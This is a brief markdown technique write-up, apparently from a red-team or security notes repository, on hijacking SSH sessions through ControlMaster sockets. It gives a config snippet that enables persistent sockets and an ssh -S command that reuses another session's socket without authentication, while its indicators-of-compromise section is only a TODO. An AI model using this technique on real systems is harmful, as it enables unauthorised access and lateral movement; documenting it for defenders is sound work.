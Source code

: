 
# Hijacking SSH With ControlMaster

## Summary

ControlMaster is a feature that enables sharing of multiple SSH sessions over a single network connection. This functionality can be enabled for a given user by editing their local SSH configuration file in ~/.ssh/config. This will create a socket that can be used without authentication on the client.

## Prerequisites

A client must have SSH installed, with the ability to configure ControlMaster, and the connection must have been made at least once depending on the ControlPersist setting used.

## Setup

To configure ControlMaster, place the following into the clients local SSH config, located at ~/.ssh/config:

```config
Host *
        ControlPath ~/.ssh/controlmaster/%r@%h:%p
        ControlMaster auto
        ControlPersist 10m
```

if ControlPersist is set to yes, it will never close even when the SSH connection is closed. Otherwise, it will last for the duration this is set to after the connection is closed.

## Execution
### Method 1 - Using the ControlMaster Socket

To abuse this, run the following command on the client to hijack the ControlMaster socket:

```bash
ssh -S /home/user/.ssh/controlmaster/user\@target\:port user@target
```

#### Indicators of Compromise

TODO